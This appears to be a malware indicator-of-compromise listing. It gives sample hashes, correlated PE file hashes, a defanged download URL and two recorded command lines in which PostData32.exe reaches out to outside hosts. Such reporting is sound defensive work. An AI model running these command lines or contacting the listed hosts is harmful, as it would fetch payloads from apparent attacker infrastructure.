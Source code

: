 
878fa022bd5e5caf678fe8d728ce42ee


f78be074f6bc67a712e751254df5f166


e2aed850c18449a43886fc79b342132f


74b456adf2ae708789fb2d34ecccb954


72263750df84e24fe645206a51772c88


3a574c28beca4f3c94d30e3cf3979f4c


ee836e0f7a40571523bf56dba59898f6


f6068b672a19ce14981df011a55081e4


00ac0d7337290b74bdd7f43ec4a67ddb











Correlated PE files:


2f9af6b9d73218c578653d6d9bd02d4d


c9d29501410e19938cd8e01630dc677b











URL:


http[:]//download-attachments.s3.amazonaws.com/db08b565038ac83e89e7b55201479f37ea49e525/f0c6ea8e-d2f8-445f-b649-57808b2015b7











Sample characteristics


ZA:\Code\Macro_NB2\Request\PostData32.exe -u https://word.webhop.info/blak32.gif -t 200000


ZA:\Code\Macro_NB2\Request\PostData32.exe -u https://syn.servebbs.com/kuss32.gif -t 200000
